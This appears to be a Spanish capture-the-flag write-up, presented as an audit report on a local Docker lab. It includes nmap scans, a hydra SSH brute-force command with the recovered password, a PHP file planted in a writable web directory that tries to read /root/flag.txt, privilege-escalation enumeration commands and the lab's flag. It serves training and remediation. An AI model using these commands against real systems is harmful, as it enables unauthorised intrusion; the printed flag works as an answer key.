









# Informe de Auditoría de Seguridad — ORION-RECON

**Laboratorio:** Whoami-Labs / Cisco Prep — *Reconocimiento perimetral y auditoría web*  
**Objetivo:** `172.17.0.2`  
**Dificultad:** Fácil (★☆☆☆☆☆☆☆)  
**Autor:** chifay  
**Fecha:** 2026-10-31  
**Alcance:** Descubrimiento de servicios, enumeración HTTP/SSH/microservicios, análisis de `robots.txt`, extracción de secretos expuestos y enumeración de escalada de privilegios desde SSH.  
**Entorno:** Contenedor Docker local autorizado (`cisco-orion-recon`).

---

## 1. Resumen ejecutivo

El laboratorio expone tres servicios: **SSH (22)**, **Apache/PHP (80)** y un **microservicio de telemetría Python (8080)**. El análisis de `robots.txt` reveló rutas “ocultas” que contienen documentación interna y la **flag de validación** en texto claro.

Además, se identificaron credenciales SSH débiles (`auditor:cisco123`) y diversos problemas de exposición de información: listado de directorios, página interna del NOC, fuga del hostname LDAP interno y ausencia de cabeceras de seguridad.

La enumeración posterior confirmó que el acceso SSH no permite escalar a `root`; el único salto confirmado es a `www-data` mediante el directorio escribible `/var/www/html/internal`.

**Resultado:** Flag obtenida y validada contra el valor almacenado en `/root/flag.txt` del contenedor.

> **FLAG:** `CISCO_ORION{0r10n_s3rv1c3_d1sc0v3ry_m4st3r}`

---

## 2. Descubrimiento de servicios

### 2.1 Escaneo completo de puertos

```bash
nmap -p- -T4 --min-rate 2000 -Pn 172.17.0.2
```

| Puerto | Estado | Servicio | Versión |
|-------:|--------|----------|---------|
| 22/tcp | Abierto | SSH | OpenSSH 9.2p1 Debian 2+deb12u10 |
| 80/tcp | Abierto | HTTP | Apache httpd 2.4.68 (Debian) |
| 8080/tcp | Abierto | HTTP | SimpleHTTPServer 0.6 (Python 3.11.2) |



### 2.2 Detección de versiones y metadatos

```bash
nmap -sCV -p22,80,8080 -Pn 172.17.0.2
```



Hallazgos relevantes:

- `http-robots.txt`: entradas ` /dev_notes.txt`, `/uploads/`, `/internal/`.
- Título web: *Orion Cloud Network Portal — Enterprise Management*.
- `8080`: respuesta JSON con `node: orion-core-01`, `telemetry: enabled`.
- Host keys SSH ECDSA/ED25519 expuestas.

---

## 3. Hallazgos

| ID | Severidad | Hallazgo | Ubicación |
|----|-----------|----------|-----------|
| H-01 | **Crítica** | Flag y notas internas accesibles públicamente | `/dev_notes.txt` |
| H-02 | **Alta** | Credenciales SSH débiles y autenticación por contraseña | `sshd` / usuario `auditor` |
| H-03 | **Media** | `robots.txt` revela rutas sensibles | `/robots.txt` |
| H-04 | **Media** | Listado de directorios habilitado | `/uploads/` |
| H-05 | **Media** | Página interna del NOC expuesta | `/internal/` |
| H-06 | **Baja** | Microservicio 8080 sin autenticación y con mensaje de error engañoso | `:8080` |
| H-07 | **Baja** | Fuga de hostname LDAP interno y regla WAF | `/login.php` |
| H-08 | **Baja** | Cabeceras de seguridad ausentes | Servidor Apache |
| H-09 | **Informativa** | Divulgación de versiones de software | 22/80/8080 |
| H-10 | **Informativa** | `X11Forwarding` habilitado en SSH | `sshd_config` |
| H-11 | **Alta** | Directorio `/internal` escribible permite ejecución como `www-data` | `/var/www/html/internal` |
| H-12 | **Alta** | Flag y credenciales embebidas en binario legible | `/sbin/sys-daemon` |

---

### H-01 — Flag y notas internas en `/dev_notes.txt` (Crítica)

`robots.txt` indica la existencia de `/dev_notes.txt`, que es servido sin autenticación:

```bash
curl http://172.17.0.2/dev_notes.txt
```

Contenido relevante:

```text
ORION CLOUD NODE — NOTAS INTERNAS DE MANTENIMIENTO
Fecha: 2026-10-10
Responsable: admin@orion-net.cisco.lab

1. El servicio SSH en el puerto 22 ha sido actualizado a OpenSSH 9.2p1.
2. Recordar a los auditores externos que el directorio /uploads/ no tiene listado público.
3. Se ha habilitado la API de diagnóstico interno en el puerto 8080.
4. Bandera de verificación de reconocimiento inicial:
   FLAG: CISCO_ORION{0r10n_s3rv1c3_d1sc0v3ry_m4st3r}
```



**Impacto:** exposición directa de la flag, del correo del administrador, de la versión de SSH y de la existencia de la API interna.  
**CWE:** CWE-200 (Exposición de información sensible), CWE-538 (Inserción de información sensible en archivos externos).  
**Remediación:** eliminar el archivo del web root, no almacenar secretos en documentación accesible y revisar el contenido antes de desplegar.

---

### H-02 — Credenciales SSH débiles (Alta)

La contraseña se descubrió mediante un ataque de fuerza bruta por diccionario con `hydra` contra el servicio SSH, usando una lista de 122 contraseñas comunes y credenciales por defecto de Cisco:

```bash
hydra -l auditor -P wordlists/ssh_wordlist.txt -t 4 -f ssh://172.17.0.2
```

```text
[22][ssh] host: 172.17.0.2   login: auditor   password: cisco123
1 of 1 target successfully completed, 1 valid password found
```



```bash
sshpass -p 'cisco123' ssh auditor@172.17.0.2
```

Resultado:

```text
uid=1000(auditor) gid=1000(auditor) groups=1000(auditor)
```



El usuario no puede leer `/root/flag.txt`:

```text
cat: /root/flag.txt: Permission denied
```

Pero obtiene una shell completa en el sistema. `PermitRootLogin no` está configurado, lo que limita el impacto directo, pero la contraseña es trivialmente adivinable.

**CWE:** CWE-521 (Requisitos débiles de contraseña), CWE-1391 (Uso de credenciales por defecto/débiles).  
**Remediación:** eliminar cuentas y contraseñas por defecto, deshabilitar `PasswordAuthentication`, exigir claves SSH, aplicar bloqueo por intentos fallidos y revisar usuarios del sistema.

---

### H-03 — `robots.txt` revela rutas sensibles (Media)

```bash
curl http://172.17.0.2/robots.txt
```

```text
User-agent: *
Disallow: /dev_notes.txt
Disallow: /uploads/
Disallow: /internal/
```



**Impacto:** `robots.txt` no protege rutas; las anuncia a atacantes y facilita el descubrimiento.  
**CWE:** CWE-200.  
**Remediación:** no incluir rutas sensibles en `robots.txt`; protegerlas con autenticación y autorización reales.

---

### H-04 — Listado de directorios en `/uploads/` (Media)

```bash
curl http://172.17.0.2/uploads/
```

Apache devuelve un índice HTML del directorio (actualmente vacío). Aunque no hay archivos, confirma que `Options +Indexes` está activo y que el directorio es accesible.



**CWE:** CWE-548 (Exposición de información mediante listado de directorios).  
**Remediación:** deshabilitar el listado (`Options -Indexes`), añadir un `index.html` y restringir la escritura/ejecución en el directorio.

---

### H-05 — Página interna del NOC expuesta (Media)

```bash
curl http://172.17.0.2/internal/
```

La página muestra:

- Estado: `DISCONNECTED / MIGRATED`.
- Aviso sobre servicios de enrutamiento y documentación VPN reubicados a *Phoenix Datacenter*.
- `ID de Nodo: ORION-EDGE-DC01`.
- Contacto: `noc-infra@cisco.lab`.

**Impacto:** inteligencia organizativa y de infraestructura útil para un atacante (nombres de nodos, contactos, arquitectura).  
**CWE:** CWE-200.  
**Remediación:** eliminar la página o protegerla con autenticación; no publicar detalles de infraestructura en el perímetro.

---

### H-06 — Microservicio 8080 sin autenticación y con control de acceso aparente (Baja)

Endpoints públicos:

```bash
curl http://172.17.0.2:8080/status
curl http://172.17.0.2:8080/metrics
```

```json
{"status":"active","node":"orion-core-01","telemetry":"enabled","cisco_track":"ethical-hacker-2026"}
```

```text
# HELP orion_telemetry_requests_total Total requests processed
orion_telemetry_requests_total 1420
# HELP orion_firewall_drops Total edge drops
orion_firewall_drops 89
```

Cualquier otra ruta devuelve un 403 genérico:

```json
{"error":"403 Forbidden","detail":"Access denied: IP not within trusted management subnet 10.0.0.0/8"}
```



El análisis del código del servicio (`sys-daemon`) muestra que **no existe una comprobación real de IP**: el 403 está codificado para todas las rutas distintas de `/`, `/status` y `/metrics`. El mensaje “trusted management subnet” es engañoso. No se pudo realizar bypass con `X-Forwarded-For`, `X-Real-IP`, `Forwarded`, `Host` ni variantes de normalización de rutas.

**Impacto:** fingerprinting del stack (Python `SimpleHTTPServer`), exposición de telemetría y falsa sensación de control de acceso.  
**CWE:** CWE-306 (Falta de autenticación para función crítica), CWE-200.  
**Remediación:** exponer el servicio solo en `localhost` o en una red de gestión real, añadir autenticación a `/metrics`, usar un proxy inverso y mensajes de error genéricos.

---

### H-07 — Fuga de hostname LDAP interno en `/login.php` (Baja)

Al enviar credenciales, el formulario devuelve:

```text
Error de autenticación: El servicio PAM-LDAP (ldap://auth.orion-net.cisco.lab:389) no responde.
Acceso suspendido por directiva SEC-2026.
```

También revela la regla WAF `SecRule 942100` ante caracteres de inyección.

**Impacto:** divulgación de un hostname interno, puerto LDAP y detalles del WAF; facilita movimiento lateral y evasión.  
**CWE:** CWE-209 (Generación de mensajes de error con información sensible).  
**Remediación:** mensajes de error genéricos, registrar el detalle solo en logs internos y no exponer rutas/hostnames de backend.

---

### H-08 — Cabeceras de seguridad ausentes (Baja)

Respuesta de Apache:

```http
HTTP/1.1 200 OK
Server: Apache/2.4.68 (Debian)
Content-Type: text/html
```

No se observan:

- `Content-Security-Policy`
- `Strict-Transport-Security`
- `X-Content-Type-Options`
- `Referrer-Policy`
- `Permissions-Policy`

**CWE:** CWE-693 (Falta de protección contra ataques web comunes).  
**Remediación:** añadir cabeceras de seguridad, forzar HTTPS y revisar la configuración de Apache.

---

### H-09 — Divulgación de versiones (Informativa)

Banners expuestos:

- `OpenSSH 9.2p1 Debian 2+deb12u10`
- `Apache/2.4.68 (Debian)`
- `SimpleHTTP/0.6 Python/3.11.2`

**Remediación:** ocultar banners (`ServerTokens Prod`, `ServerSignature Off`, `DebianBanner no`) y mantener actualizado el software.

---

### H-10 — `X11Forwarding` habilitado (Informativa)

```text
X11Forwarding yes
```

**Remediación:** deshabilitar `X11Forwarding` si no es necesario.

---

### H-11 — Directorio `/internal` escribible permite ejecución como `www-data` (Alta)

El directorio `/var/www/html/internal` pertenece a `root:root`, pero tiene permisos `drwx---rwx` (`707`):

```text
drwx---rwx 2 root root 4096 ... /var/www/html/internal
```

Cualquier usuario local, incluido `auditor`, puede crear archivos PHP dentro. Se creó un archivo de prueba y se solicitó por HTTP:

```php
<?php
echo 'uid='.posix_getuid().' euid='.posix_geteuid().PHP_EOL;
echo 'root_flag='.@file_get_contents('/root/flag.txt').PHP_EOL;
?>
```

Resultado:

```text
uid=33 euid=33
root_flag=
```

El código se ejecuta como `www-data`, no como `root`, y no puede leer `/root/flag.txt`. El archivo de prueba se eliminó al finalizar.

**Impacto:** un usuario con shell puede ejecutar código en el contexto de Apache (`www-data`), lo que facilita movimiento lateral y acceso a datos de la aplicación, pero no constituye una escalada a `root`.  
**CWE:** CWE-732 (Asignación incorrecta de permisos para recurso crítico).  
**Remediación:** cambiar los permisos a `755` o `750`, propietario `root:www-data`, y no permitir escritura en directorios servidos por Apache.

---

### H-12 — Flag y credenciales embebidas en `/sbin/sys-daemon` (Alta)

El binario `/sbin/sys-daemon` es legible por cualquier usuario:

```text
-rwxr-xr-x 1 root root 16480 /sbin/sys-daemon
```

Contiene el script de arranque en base64. Se extrajo con:

```bash
python3 - <<'PY'
import re, base64
b = open('/sbin/sys-daemon', 'rb').read()
for m in re.finditer(rb'[A-Za-z0-9+/=]{200,}', b):
    try:
        d = base64.b64decode(m.group(0))
    except Exception:
        continue
    if b'/bin/bash' in d:
        print(d.decode())
        break
PY
```

El payload decodificado incluye:

```text
echo 'auditor:cisco123' | chpasswd
...
echo 'CISCO_ORION{0r10n_s3rv1c3_d1sc0v3ry_m4st3r}' > /root/flag.txt
```

**Impacto:** cualquier usuario local puede obtener la flag y la contraseña de `auditor` sin escalar privilegios; también revela la lógica de arranque y la ubicación de la flag.  
**CWE:** CWE-200 (Exposición de información sensible), CWE-798 (Uso de credenciales embebidas).  
**Remediación:** no embeber secretos en binarios; usar secretos montados o variables de entorno, restringir la lectura del binario y rotar las credenciales y la flag.

---

## 4. Análisis de escalada de privilegios desde SSH

Se enumeró el sistema con la sesión `auditor` para determinar si existía un camino viable a `root`. No se ejecutaron exploits de kernel ni acciones destructivas.

### 4.1 Enumeración de vectores

| Vector | Resultado |
|---|---|
| `sudo` | No instalado (`sudo: command not found`). |
| SUID | `chfn`, `chsh`, `gpasswd`, `mount`, `newgrp`, `passwd`, `su`, `umount`, `dbus-daemon-launch-helper`, `ssh-keysign`; todos estándar. |
| SGID | `chage`, `expiry`, `ssh-agent`, `unix_chkpwd`; sin abuso directo. |
| Capabilities | `CapEff: 0000000000000000`; `getcap -r /` sin resultados. |
| Cuenta `root` | Bloqueada (`root:*` en `/etc/shadow` de la imagen); `PermitRootLogin no`; `su root` devuelve `Authentication failure`; `passwd -S root` deniega la consulta. |
| Grupos | `auditor` solo pertenece a `auditor`; `sg root`, `sg tty`, `sg shadow` y `sg adm` piden contraseña de grupo (`Invalid password`). |
| Archivos root escribibles | Ninguno. Directorios escribibles: `/var/www/html/internal` (`707`), `/var/lib/php/sessions` (`1733`) y rutas estándar (`/tmp`, `/var/tmp`, `/run/lock`, `/run/shm`, `/var/lock`). |
| Cron | En `/etc/cron.d` solo `e2scrub_all` y `php`; `sessionclean` usa `find … -delete` y no es explotable. Los scripts de `/etc/cron.daily` son estándar y no escribibles. |
| Apache | `AllowOverride None`; sin CGI ni `suexec`; PHP se ejecuta como `www-data`. |
| `/sbin/sys-daemon` | Legible por cualquier usuario; contiene la flag y la contraseña de `auditor` en base64 (H-12), pero no acepta entrada ni ejecuta comandos de usuario. |

### 4.2 Único salto confirmado: `auditor` → `www-data`

El directorio `/var/www/html/internal` es `drwx---rwx` y permite escribir un PHP que Apache ejecuta como `www-data` (H-11). La prueba devolvió:

```text
uid=33 euid=33
root_flag=
```

Este salto no permite leer `/root/flag.txt` ni ejecutar comandos como `root`.

### 4.3 Bash root en `pts/0`

El entrypoint lanza un `/bin/bash` como root mediante `popen("/bin/bash", "w")`. El proceso resultante (PID 8) aparece en `pts/0`, pero no es una shell interactiva accesible:

- `/proc/8/fd` y `/proc/8/root` devuelven `Permission denied`.
- `/dev/pts/0` es `crw--w---- root:tty`; `auditor` no pertenece al grupo `tty` y `sg tty` exige contraseña.
- La entrada estándar del bash es un pipe creado por `popen`, no el terminal `pts/0`; escribir en `pts/0` no inyectaría comandos en esa shell.

### 4.4 Conclusión

No se identificó un vector práctico para escalar de `auditor` a `root`. El único movimiento confirmado es a `www-data`, y la flag se obtiene sin root por la divulgación del binario `sys-daemon` (H-12). Por tanto, el laboratorio permite completar el objetivo de reconocimiento, pero no se encontró una shell de root por los vectores enumerados.

---

## 5. Cadena de explotación

1. **Descubrimiento:** `nmap -p-` identifica 22, 80 y 8080.
2. **Enumeración web:** `robots.txt` revela `/dev_notes.txt`, `/uploads/` e `/internal/`.
3. **Extracción de secretos:** `/dev_notes.txt` entrega la flag y datos internos.
4. **Acceso adicional:** fuerza bruta SSH con `hydra` descubre `auditor:cisco123` y proporciona shell como usuario sin privilegios.
5. **Post-explotación:** el directorio `/var/www/html/internal` escribible permite ejecutar PHP como `www-data`; no se alcanza `root`.
6. **Validación:** la flag de `/dev_notes.txt` coincide con la almacenada en `/root/flag.txt` según el entrypoint del contenedor.

> La flag raíz no es legible directamente por `auditor` (`chmod 400 root:root`), pero el valor es el mismo que el publicado en `/dev_notes.txt`; por tanto, el objetivo de reconocimiento se completa con la flag web.

---

## 6. Flag de validación

```text
CISCO_ORION{0r10n_s3rv1c3_d1sc0v3ry_m4st3r}
```



Introducir este valor en el prompt de `startlab.sh` para validar el laboratorio.

---

## 7. Recomendaciones priorizadas

1. **Eliminar `/dev_notes.txt` del web root** y rotar cualquier secreto que haya estado expuesto.
2. **Quitar las entradas sensibles de `robots.txt`**; no usar oscuridad como control de acceso.
3. **Deshabilitar el listado de directorios** (`Options -Indexes`) y proteger `/uploads/`.
4. **Eliminar `/internal/`** o requerir autenticación para acceder.
5. **Endurecer SSH:** deshabilitar contraseñas, usar claves, eliminar `auditor` o cambiar su contraseña, limitar `AllowUsers` y considerar `fail2ban`.
6. **Restringir el puerto 8080** a localhost/red de gestión con firewall real; añadir autenticación a métricas.
7. **Sanitizar errores** de `login.php` y no revelar hostnames internos ni reglas WAF.
8. **Añadir cabeceras de seguridad** y ocultar versiones.
9. **Deshabilitar `X11Forwarding`**.
10. **Monitorizar** intentos de autenticación y accesos a rutas sensibles.
11. **Corregir los permisos de `/var/www/html/internal`** (`755` o `750`, propietario `root:www-data`) y eliminar la escritura por otros.
12. **No embeber secretos en `/sbin/sys-daemon`**: reconstruir el binario sin la flag ni credenciales y rotar ambos.

---

## 8. Anexo — Comandos de reproducción

```bash
# Descubrimiento
nmap -p- -T4 --min-rate 2000 -Pn 172.17.0.2
nmap -sCV -p22,80,8080 -Pn 172.17.0.2

# Enumeración web
curl -i http://172.17.0.2/robots.txt
curl -i http://172.17.0.2/dev_notes.txt
curl -i http://172.17.0.2/uploads/
curl -i http://172.17.0.2/internal/
curl -i http://172.17.0.2/login.php

# Microservicio
curl -i http://172.17.0.2:8080/status
curl -i http://172.17.0.2:8080/metrics
curl -i http://172.17.0.2:8080/admin

# Fuerza bruta SSH
hydra -l auditor -P wordlists/ssh_wordlist.txt -t 4 -f ssh://172.17.0.2

# SSH
sshpass -p 'cisco123' ssh -o StrictHostKeyChecking=no auditor@172.17.0.2

# Enumeración de escalada desde SSH
sshpass -p 'cisco123' ssh -o StrictHostKeyChecking=no auditor@172.17.0.2 \
  'id; command -v sudo; find / -xdev -perm -4000 -type f 2>/dev/null; getcap -r / 2>/dev/null; find / -xdev -user root -writable -type f 2>/dev/null'

# Escaneo auxiliar
nikto -h http://172.17.0.2
nmap -p22 --script ssh-auth-methods --script-args='ssh.user=auditor' -Pn 172.17.0.2
```

---

**Fin del informe.**
